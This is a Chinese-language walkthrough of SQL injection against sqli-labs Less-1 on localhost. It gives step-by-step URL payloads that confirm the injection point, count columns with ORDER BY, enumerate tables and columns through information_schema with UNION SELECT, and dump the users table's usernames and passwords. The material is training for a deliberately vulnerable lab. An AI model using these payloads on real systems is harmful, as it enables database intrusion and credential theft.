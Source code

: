 # Less-1

请输入有数值的ID作为参数

![1622079177540](1622079177540.png)

尝试提交id=1，能够看到页面发生变化，出现Dumb用户的密码，更改id的数值会有不同的用户名及密码出现

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1
```

![1622080311640](1622080311640.png)

添加单引号后，页面抛出异常，说明sql语句里存在引号非法闭合，判断这里存在注入

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1'
```

![1622080486916](1622080486916.png)

## 1.1 判断sql注入的类型

判断是否为数字型注入，输入整型，发现页面没有发生变化，说明不是

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1 and 1=1
http://localhost:8080/sqli-labs-master/Less-1/?id=1 and 1=2
```

再判断是否为字符型注入，输入字符，发现页面发生变化，说明是

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1' and '1' = '1
```

![1622080933387](1622080933387.png)

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1' and '1' = '2
```

![1622080918514](1622080918514.png)

## 1.2 判断字段数量

知道了该注入点类型为字符型注入，接下来使用order by来判断字段的数量，order by后跟数字，当数字是4时页面报错，所以判断字段数量为3（url中使用%23或是–-+来代替注释#，这是为了注释掉limit0,1的显示限制）

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1' order by 1--+
http://localhost:8080/sqli-labs-master/Less-1/?id=1' order by 2--+
http://localhost:8080/sqli-labs-master/Less-1/?id=1' order by 3--+
http://localhost:8080/sqli-labs-master/Less-1/?id=1' order by 4--+
```

![1622082773280](1622082773280.png)

## 1.3 确定显示位置

使用联合查询union select来确定结果集的显示位置，这里可以获得字段2和字段3的信息，注意id=-1是为了查询一个不存在的用户账户，来保证返回信息是自己构造的联合查询结果

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,2,3 --+
```

![1622083067509](1622083067509.png)

## 1.4 获取数据库信息

常用函数

| 函数名         | 功能                 |
| -------------- | -------------------- |
| user()         | 查看当前用户         |
| database()     | 查看当前使用的数据库 |
| group_concat() | 一次性获取数据库信息 |
| version()      | 查看数据库的版本     |

既然能够再2，3位置获得显示，那么我们使用联合查询利用函数来替换数字获得返回的数据库信息

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,database(),version() --+
```

![1622083808498](1622083808498.png)

得到数据库版本为5.5.53，并且当前数据库为security

## 1.5 获取表名和列名

已知MySQL数据库版本是5.0以上，那么默认存在information_schema数据库，该数据库包含数据库内的所有数据库名，表名和列名，所以我们可以借助该库来查询security库里的表名和列名，当然要获得列名首先要先获得表名

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,database(), group_concat(table_name) from information_schema.tables where table_schema = 'security' --+
```

![1622084961634](1622084961634.png)

得到security库内有四张表，不出意外users表内就有我们最终要获得的管理员账户密码，接着获取users表的列名

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,database(), group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' --+
```

![1622085221486](1622085221486.png)

## 1.6 获取用户名和密码

知道了表名和列名，最后一步dump出想要得到的信息就大功告成了

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from security.users --+
```

![1622085639828](1622085639828.png)



